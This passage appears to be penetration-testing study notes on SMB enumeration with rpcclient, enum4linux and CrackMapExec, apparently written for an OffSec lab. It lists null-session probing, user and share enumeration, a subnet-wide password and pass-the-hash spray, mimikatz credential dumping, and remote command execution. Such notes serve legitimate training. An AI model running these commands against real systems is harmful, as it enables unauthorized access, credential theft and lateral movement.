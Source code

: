 ```
Empty LM Hash: aad3b435b51404eeaad3b435b51404ee
Empty NT Hash: 31d6cfe0d16ae931b73c59d7e0c089c0
```

**rpcclient**

Manually probe a SMB server

```
rpcclient -U '' $ip
Password:
rpcclient $> srvinfo # operating system version
rpcclient $> netshareenumall # enumerate all shares and its paths
rpcclient $> enumdomusers # enumerate usernames defined on the server
rpcclient $> getdompwinfo # smb password policy configured on the server
```

Apparently the rpcclient version in OffSec VM does not work well with creating null sessions. A downgrade to samba-4.5.15 is required: [https://forums.offensive-security.com/showthread.php?12943-Found-solution-to-enum4linux-rpcclient-problem-NT\_STATUS\_INVALID\_PARAMETER\&highlight=NT\_STATUS\_INVALID\_PARAMETER](https://forums.offensive-security.com/showthread.php?12943-Found-solution-to-enum4linux-rpcclient-problem-NT\_STATUS\_INVALID\_PARAMETER\&highlight=NT\_STATUS\_INVALID\_PARAMETER) Place the export commands into a script and source it before using rpcclient to use the downgraded version, or place it in bashrc. NOTE, once downgraded, pth-winexe doesn't seem to work.

**enum4linux**

Wrapper around smb programs like `rpcclient` to automate enumerating an SMB server. Produces tons of results when a null session is successful. NOTE: Make sure to downgrade rpcclient before using.

```
enum4linux -a $ip
enum4linux -u 'guest' -p '' -a $ip
```

**CrackMapExec**

Works perfectly, list shares and permissions, enum users, disks, code execute and run modules like mimikatz. Hashes work. Also will tell you exact version of Windows

```
crackmapexec -u 'guest' -p '' --shares $ip
crackmapexec -u 'guest' -p '' --rid-brute 4000 $ip
crackmapexec -u 'guest' -p '' --users $ip
crackmapexec smb 192.168.1.0/24 -u Administrator -p P@ssw0rd
crackmapexec smb 192.168.1.0/24 -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -M mimikatz 192.168.1.0/24
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -x whoami $ip
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B --exec-method smbexec -x whoami $ip# reliable pth code execution
```

Also will tell you exact version of windows:
